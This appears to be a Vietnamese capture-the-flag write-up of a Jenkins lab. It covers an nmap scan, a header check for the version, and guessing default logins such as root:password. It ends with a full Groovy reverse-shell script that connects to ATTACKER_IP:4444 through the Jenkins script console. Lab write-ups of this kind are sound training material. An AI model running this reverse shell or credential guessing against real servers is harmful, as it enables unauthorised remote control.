## Task 1


> Common Vulnerabilities and Exposures
## Task 2


> confidentiality, integrity, availability
## Task 3


Thực hiện lệnh quét
```bash
sudo nmap -p8080 -T4 -sV -sC -Pn 10.129.62.39
```



> Jetty 9.4.39.v20210325
## Task 4


Truy cập thử trang web thì không thấy hiển thị version nhưng sau khi tìm hiểu thì thấy trong Header phản hồi sẽ có thông tin server thông qua giá trị `X-Jenkins`
```bash
curl -I http://10.129.62.39:8080
```


> Jenkins 2.289.1
## Task 5


> Groovy
## Task 6


>  /script
## Task 7


> ifconfig
## Task 8


> -u
## Task 9


> Reverse Shell
## Flag


Hiện giờ chúng ta chưa có account nào nên thử một số pattern thường được sử dụng
```
admin:password 
admin:admin 
root:root 
root:password
```
Phát hiện được account root / password có thể login vào dashboard

Vào phần script console để chuẩn bị RCE về máy attacker của chúng ta
```groovy
String host="ATTACKER_IP";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();po.flush();
  Thread.sleep(50);
  try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();s.close();
```
Chúng ta thực thi và nhận được shell

Tìm kiếm flag trong thư mục của root

